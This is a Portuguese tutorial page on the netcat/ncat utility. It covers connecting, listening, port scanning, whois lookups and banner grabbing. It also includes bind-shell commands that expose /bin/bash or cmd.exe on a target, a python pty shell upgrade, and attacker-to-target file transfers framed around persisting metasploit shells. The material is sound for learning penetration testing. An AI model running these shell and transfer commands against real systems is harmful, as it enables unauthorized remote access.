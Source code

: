 ```yaml
---
id: nc
title: nc (netcat)
---
```


# nc

O utilitário `nc` (ou netcat) é usado para quase tudo sob o sol envolvendo
soquetes de domínio TCP, UDP ou UNIX. Ele pode abrir conexões TCP, enviar
pacotes UDP, escutar em portas TCP e UDP arbitrárias, fazer varredura de portas
e lidar com IPv4 e IPv6. Ao contrário do `telnet`, o `nc` faz scripts bem e separa
as mensagens de erro no erro padrão, em vez de enviá-las para a saída padrão,
como o `telnet` faz com alguns.

Os usos comuns incluem:

- Proxies TCP simples;
- Clientes e servidores HTTP baseados em shell-script;
- Teste de daemon de rede;
- SOCKS ou HTTP ProxyCommand para SSH;
- E muito, muito mais...

---

## Conectando

Abaixo temos o uso básico do `nc`, utilizando por padrão o protocolo TCP:

```bash
nc 172.16.1.4 110
```

Em alguns casos procisamos de mais informação, por exemplo que a conexão foi
estabelecida e para isso utilizamos o modo verboso passando o argumento `-v`:
 
```bash
nc -v 172.16.1.4
```

Para efetuar conexões utilizando o protocolo UDP basta utilizar o argumento
`-u`:

```bash
nc -u 127.0.0.1 9000
```

## Escutando

É possível expor uma porta para conexão utilizando o `nc`, porém parece não ser
muito funcional se não utilizado para expor uma shell ou para transferir
arquivos, contudo esse modo pode ser útil para validar portas abertas no
firewall, onde exponho uma porta e verifico se o firewall permite acesso à ela.
Para expor essa porta no alvo utilizamos o argumento `-l`:

```bash
nc -vl 5050
```

Depois podemos utilizar o comando `netstat` para verificar o estado da porta no
sistema alvo:

```bash
netstat -nlpt
```  

Para portas UDP basta utilizar o argumento `-u`:

```bash
nc -vlu 9000
```

## Transferência de arquivo

A transferência de arquivo é muito importante porque o `nc` não possui a função
de expor uma shell, porém o pacote `ncat`, mantido pelo projeto do `nmap`,
possui essa função muito útil. Além disso em muitos momentos temos a necessidade
de subir binários gerados pelo `metasploit` com a intenção de persistir uma
shell ou até mesmo alguns scripts como o `linPEAS` para enumeração.

Para a transferência de arquivos uilizando o `nc` temos dois cenários, um onde o
servidor alvo espera a conexão e no outro caso onde o servidor alvo faz uma
conexão, abaixo teremos os dois exemplos.

### Alvo ← Atacante (Upload)

No servidor alvo:

```bash
nc -lv 5050 > ncat
```

No sistema do atacante:

```bash
nc -v 172.16.2.6 5050 < ncat
```

### Alvo → Atacante (Download)

No sistema do atacante:

```bash
nc -lv 5050 < ncat
```

No servidor alvo:

```bash
nc -v 172.16.2.5 > ncat
```

## Expondo Shell

Expondo shell no Linux:

```bash
ncat -vnlp 5050 -e /bin/bash
```

Expondo shell no Windows:

```bash
ncat -vnlp 5050 -e cmd.exe
```

:::info
Os dois comandos acima são um modelo de shell simples onde devem ser executadas
na máquina alvo.  
Note também que estamos utilizando o `ncat` ao invés do `nc`, sendo que o
primeiro possui mais funções.
:::

Após obter a shell com o `ncat`, podemos chamar um pseudo terminal usando
Python, onde irá melhorar considerávelmente a shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Escaneando Portas

Para escanear uma porta específica basta utilizar o argumento `-z`:

```bash
nc -vnz 172.16.1.5 22
```
Escaneando um range de portas:

```bash
nc -vnz 172.16.1.5 19-30
```
:::info
Será escaneado da porta 19 até a porta 30.
:::  

Podemos também especificar o *timeout* para cada porta com o argumento `-w`:

```bash
nc -vnz -w2 172.16.1.5 22
```

:::info
Será escaneado levando em consideração um *timeout* de 2 segundos (`-w2`).
:::

Escaneando portas UDP com o argumento `-u`:

```bash
nc -vnzu 172.16.1.5 22
```

## Whois

Com o `nc`também é capaz de fazer pesquisas de domínio diretamente no
registro.br:

```bash
echo "uol.com.br" | nc registro.br 43
```

:::caution
O **registro.br** aceita somentes domínios, ASNs e blocos de IPs brasileiros.  
Para verificação extrangeira utilize o **whois.internic.net**:

```bash
echo "domain google.com" | nc whois.internic.net 43
```

:::

## Banner Grabbing

### HTTP

```bash
$ nc -vn www.alvo.com 80
HEAD / HTTP/1.0
```

### FTP

```
$ nc -v 192.168.1.100 21
USER anonymous
PASS anonymous
```

:::info
Sempre teste com usuário `anonymous` e senha `anonymous`.  
Caso o login tenha sido aceito, será retornado o código `230 Login successful`.
:::

:::info
Servidor de teste:

**Domain:** ftp.dlptest.com  
**User:** dlpuser  
**Password:** rNrKYTX9g7z3RgJRmxWuGHbeu

https://dlptest.com/ftp-test/
:::
